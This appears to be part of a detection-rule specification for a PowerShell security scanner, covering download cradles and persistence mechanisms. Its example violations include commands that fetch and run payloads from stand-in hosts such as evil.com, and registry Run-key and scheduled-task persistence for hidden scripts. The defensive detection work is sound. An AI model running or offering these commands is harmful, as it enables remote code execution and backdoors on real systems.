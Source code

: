 ### **2. PowerShell Download Cradle Detection**

**Priority**: Critical  
**Category**: Malware Delivery / Remote Code Execution

**Description**: Detect common "download cradle" patterns used to download and execute malicious payloads from the internet.

**Patterns to Detect**:
- `IEX (New-Object Net.WebClient).DownloadString('http://...')`
- `Invoke-Expression (Invoke-WebRequest -Uri '...' -UseBasicParsing).Content`
- `powershell -c "IEX(IWR('url'))"`
- `curl | iex` style patterns
- BitsTransfer downloads followed by execution
- Certificate validation bypass + web request + execution
- Memory-only execution patterns (fileless malware)

**Example Violations**:
```powershell
# Classic download cradle
IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/payload.ps1')

# Shortened version
IEX(IWR 'http://evil.com/script.ps1')

# BitsTransfer cradle
Start-BitsTransfer -Source 'http://bad.com/tool.exe' -Destination $env:TEMP\tool.exe
& "$env:TEMP\tool.exe"

# Memory-only execution
[Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://evil.com/payload.dll'))
```

**Suggested Test Script**: `download-cradle-patterns.ps1`

---

### **3. PowerShell Persistence Mechanisms**

**Priority**: High  
**Category**: Persistence / Backdoor Detection

**Description**: Detect PowerShell commands that establish persistence on a system.

**Patterns to Detect**:
- Registry Run keys modifications: `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run`
- Scheduled task creation with PowerShell payloads: `Register-ScheduledTask`
- WMI event subscriptions: `Register-WmiEvent`, `__EventFilter`, `__EventConsumer`
- PowerShell profile modifications: `$PROFILE`
- Startup folder script placement
- Service creation with PowerShell commands
- DLL hijacking via PowerShell

**Example Violations**:
```powershell
# Registry persistence
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell.exe -WindowStyle Hidden -File C:\malware.ps1"

# Scheduled task persistence
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -File C:\backdoor.ps1"
$trigger = New-ScheduledTaskTrigger -AtLogon
Register-ScheduledTask -TaskName "SystemUpdate" -Action $action -Trigger $trigger

# WMI persistence
```